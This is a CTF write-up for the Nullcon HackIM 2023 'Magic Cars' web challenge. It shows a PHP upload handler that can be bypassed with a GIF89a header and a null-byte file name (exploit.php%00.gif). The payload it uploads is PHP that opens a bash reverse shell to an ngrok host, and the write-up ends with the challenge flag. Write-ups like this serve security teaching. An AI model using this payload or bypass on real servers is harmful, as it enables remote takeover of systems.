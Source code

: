 # Nullcon Goa HackIM CTF 2023

## Web/Magic Cars

## Challenge Overview

Description: Who doesn't love Magical Cars? go checkout this cool website and even upload your fav gif to support it. Author: @moaath

![Index](./images/index.png)

We have been given a website [http://52.59.124.14:10021/](http://52.59.124.14:10021/). We can see three options there. But only gallery seems to be interesting.

So first let's see the source code given.

```php
<?php
error_reporting(0);

$files = $_FILES["fileToUpload"];
$uploadOk = true;

if ($files["name"] != "") {
    $target_dir = urldecode("images/" . $files["name"]);

    if (strpos($target_dir, "..") !== false) {
        $uploadOk = false;
    }

    if (filesize($files["tmp_name"]) > 1 * 1000) {
        $uploadOk = false;
        echo "Too big!!!";
    }

    $extension = strtolower(pathinfo($target_dir, PATHINFO_EXTENSION));
    $finfo = finfo_open(FILEINFO_MIME_TYPE);
    $type = finfo_file($finfo, $files["tmp_name"]);
    finfo_close($finfo);

    if ($extension != "gif" || strpos($type, "image/gif") === false) {
        echo " Sorry, only gif files are accepted";
        $uploadOk = false;
    }

    $target_dir = strtok($target_dir, chr(0));

    if ($uploadOk && move_uploaded_file($files["tmp_name"], $target_dir)) {
        echo "<a href='$target_dir'>Uploaded gif here. Go see it!</a>";
    }
}
?>
```


## Vulnerability Identification

As we can see the code is checking MIME type when we upload a gif. This leads to file upload vulnerability.

So adding gif header in the file the server can be easily exploited

[Reference](https://book.hacktricks.xyz/pentesting-web/file-upload)


## Exploiting the Vulnerability

So to exploit this we will set the header of the file to **GIF89a**. And then we will inject some php code to exploit the server.

We will name this file as exploit.php%00.gif. The nullbyte will bypass the checks performed and the name of the file which will be uploaded on the server will be exploit.php as it will ignore the part after the nullbyte.

So to exploit this server we will try to get a shell using **ngrok**

exploit.php%00.gif looks like:

```php
GIF89a
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/0.tcp.in.ngrok.io/16344 0>&1'");?>
```

## Obtaining the Flag

To retrieve the flag, we will use ngrok to get reverse shell.

After uploading the file when we open it we get the shell.

The flag is located in /var/www/html named **flag.flag**.

![Flag](./images/flag.png) 

Flag: **ENO{4n_uplo4ded_f1l3_c4n_m4k3_wond3r5}**

Thank You
